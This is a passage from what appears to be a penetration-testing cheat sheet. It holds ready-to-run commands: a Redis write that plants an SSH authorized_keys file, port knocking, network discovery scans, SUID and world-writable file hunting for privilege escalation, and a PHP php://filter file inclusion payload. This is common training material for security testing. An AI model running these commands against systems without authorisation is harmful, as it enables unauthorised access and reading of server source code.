 10.85.0.52:6379> config set dir /home/test/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

## **Port Knocking :**
```
TCP
knock -v <ip> 4 27391 159

UDP
knock -v <IP> 4 27391 159 -u

TCP & UDP
knock -v <IP> 159:udp 27391:tcp 4:udp
```

# OTHER TECHNIQUES
* **IP DISCOVERY**
```
netdiscover -r 10.0.2.0/24
nmap -sP 10.195.0.0/16 // ping discovery scan
```
*  **connect to a UDP port**
`nc -u localhost 161`

* **WINDOWS**
search for files
`C:\> dir /s /b network-secret.txt`

* **Finding files**
```
Find SUID files ---> find / -perm -4000 -type f 2>/dev/null
Find SUID files owned by root ---> find / -uid 0 -perm -4000 -type f 2>/dev/null   
Find files with GUID bit set ---> find / -perm -2000 -type f 2>/dev/null      
Find world-writable files ---> find / -perm -2 -type f 2>/dev/null         
Find word-writable directories ---> find / -perm -2 -type d 2>/dev/null         
Find rhost config files ---> find /home –name .rhosts -print 2>/dev/null    
list files recursively ---> ls -ahlR /root/      
```
* **PHP**
Read PHP source code with php://filter
```
http://<IP>/?page=upload   // original page
http://<IP>/?page=php://filter/convert.base64-encode/resource=upload
curl http://<IP>/?page=php://filter/convert.base64-encode/resource=upload
 ``` 
>  The result needs to be decoded from Base64





Other recourses can be found here https://github.com/R0B1NL1N/OSCP-note/blob/master/ENUMERATION/enumeration